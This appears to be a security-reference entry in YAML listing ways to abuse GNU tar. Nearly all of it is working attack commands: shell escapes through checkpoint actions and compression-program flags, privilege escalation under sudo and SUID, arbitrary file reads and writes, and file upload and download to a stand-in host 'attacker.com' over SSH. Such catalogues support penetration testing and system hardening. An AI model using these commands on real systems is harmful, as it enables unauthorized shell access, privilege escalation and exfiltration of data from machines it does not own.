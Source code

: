 ```yaml
---
functions:
  shell:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
    - description: This only works for GNU tar. It can be useful when only a limited command argument injection is available.
      code: |
        TF=$(mktemp)
        echo '/bin/sh 0<&1' > "$TF"
        tar cf "$TF.tar" "$TF"
        tar xf "$TF.tar" --to-command sh
        rm "$TF"*
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        RHOST=attacker.com
        RUSER=root
        RFILE=/tmp/file_to_send.tar
        LFILE=file_to_send
        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
  file-download:
    - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        RHOST=attacker.com
        RUSER=root
        RFILE=/tmp/file_to_get.tar
        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  limited-suid:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

